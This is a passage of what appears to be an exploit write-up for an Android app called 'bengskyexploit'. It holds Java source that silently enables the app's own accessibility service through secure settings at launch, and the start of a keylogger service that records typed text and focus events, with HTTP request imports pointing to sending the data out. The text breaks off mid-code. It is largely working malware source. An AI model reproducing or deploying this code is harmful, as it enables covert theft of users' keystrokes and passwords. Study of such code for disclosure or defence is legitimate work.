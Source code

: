 MainActivity.java

```java
package com.example.bengskyexploit;

import android.provider.Settings;
import android.os.Bundle;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Settings.Secure.putString(getContentResolver(),
                Settings.Secure.ENABLED_ACCESSIBILITY_SERVICES, "com.example.bengskyexploit/.KeyLogger");
        Settings.Secure.putString(getContentResolver(),
                Settings.Secure.ACCESSIBILITY_ENABLED, "1");
    }
}
```

When user run the application it will automatically enabled Acessibility of our application

KeyLogger.java

```java
package com.example.bengskyexploit;

import android.accessibilityservice.AccessibilityService;
import android.view.accessibility.AccessibilityEvent;

import com.android.volley.RequestQueue;
import com.android.volley.VolleyError;
import com.android.volley.toolbox.JsonObjectRequest;
import com.android.volley.toolbox.Volley;

import org.json.JSONObject;

import java.util.LinkedHashMap;
import java.util.Map;

public class KeyLogger extends AccessibilityService {
    @Override
    public void onServiceConnected() {
    }

    @Override
    public void onAccessibilityEvent(AccessibilityEvent event) {

        String accessibilityEvent = null;
        String msg = null;

        switch (event.getEventType()) {
            case AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED: {
                accessibilityEvent = "TYPE_VIEW_TEXT_CHANGED";
                msg = String.valueOf(event.getText());
                break;
            }
            case AccessibilityEvent.TYPE_VIEW_FOCUSED: {
                accessibilityEvent = "TYPE_VIEW_FOCUSED";
                msg = String.valueOf(event.getText());
                break;
            }
```